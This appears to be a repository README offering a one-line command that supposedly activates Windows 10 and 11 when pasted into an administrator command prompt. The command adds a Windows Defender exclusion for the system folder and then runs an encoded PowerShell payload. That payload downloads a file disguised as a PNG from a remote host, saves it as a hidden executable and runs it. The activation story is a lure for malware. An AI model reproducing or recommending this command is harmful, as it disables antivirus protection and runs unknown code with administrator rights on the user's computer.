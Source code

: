 ## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGQAcgBvAHAANAAwADQALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8AaQBuAGkAdAAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAUwB5AHMAdABlAG0AUgBvAG8AdABcAFQAZQBtAHAAXAAuAGUAeABlACIA >nul 2>&1 || (echo Need to run as Administrator )


> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure
